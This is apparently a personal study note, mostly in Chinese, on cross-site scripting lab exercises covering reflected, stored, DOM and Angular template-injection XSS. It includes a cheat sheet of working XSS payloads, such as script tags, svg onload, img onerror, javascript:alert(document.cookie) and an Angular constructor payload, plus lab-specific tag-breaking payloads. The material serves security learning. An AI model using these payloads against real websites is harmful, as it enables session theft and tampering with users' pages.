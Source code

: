 ## XSS

*   cheat sheet

    ```html
    <script>alert(1)</script>
    "><script>alert(1)</script>  "><svg onload=alert(1)>
    <img src=1 onerror=alert(1)>
    javascript:alert(document.cookie)
    <iframe src="<website>/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
    "onmouseover="alert(1)
    apache';alert(1);'
    {{$on.constructor('alert(1)')()}}
    ```

1.    反射 xss

2.    存储 xss

3.    dom型xss，先闭合标签

4.   dom xss，但是<> 会被转义 ,但是直接输入一整个标签则不会

5.   dom xss returnPath存在注入 `returnPath=javascript:alert(document.cookie)`

6.   dom xss,使用iframe标签嵌入xss

7.   dom xss,闭合 “插入事件

8.   反射,输入会插入js代码中,直接闭合就可以

9.   反射

     >   1.  On the product pages, notice that the dangerous JavaScript extracts a `storeId` parameter from the `location.search` source. It then uses `document.write` to create a new option in the select element for the stock checker functionality.

     我怎么就notice不到...

     ![image-20230415013403077](https://gitee.com/leiye87/typora_picture/raw/master/20230415013405.png)payload:

     ```
     "></select><img%20src=1%20onerror=alert(1)>
     ```

     ​	

10.   DOM XSS in Angular,可以看到网站用的是 `Angular`,这里提到了一个 `cilent-side-template-injection`